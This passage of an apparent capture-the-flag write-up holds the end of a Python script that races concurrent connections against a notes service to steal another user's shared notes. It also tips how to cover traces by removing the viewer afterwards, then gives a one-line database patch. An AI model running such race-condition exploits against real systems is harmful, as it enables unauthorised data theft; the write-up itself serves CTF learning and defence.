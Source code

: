 ```python
    writer1.write(data)
    await writer1.drain()

    writer1.close()

    obj = await viewer.user_profile(viewer.username)
    user = json.loads(obj)

    for shared_note in user['sharedNotes']:
        note = await viewer.note_get(shared_note)
        print(note)

    writer2.write(data)
    await writer2.drain()

    writer2.close()


async def main() -> None:
    count = 5
    timeout = 10

    attacker = Client()
    await attacker.register()
    print(f'registered attacker with name: {attacker.username}')

    viewer = Client()
    await viewer.register()
    print(f'registered viewer with name: {viewer.username}')

    for i in itertools.count():
        print(f'started {i} round with {count} attacks')

        attacks: List[Coroutine] = []

        for i in range(count):
            attack = do_attack(i, attacker, viewer, timeout)
            attacks.append(attack)

        await asyncio.gather(*attacks)


if __name__ == '__main__':
    asyncio.run(main())
```

P.S. After successful stealing of the checker's note, we could easily do the opposite operation: delete `viewer` from note's viewers. This improvement will remain Viewers table unchanged.

## Patch

Just delete `visible` from PRIMARY KEY and AUTO_INCREMENT fields will become unique.
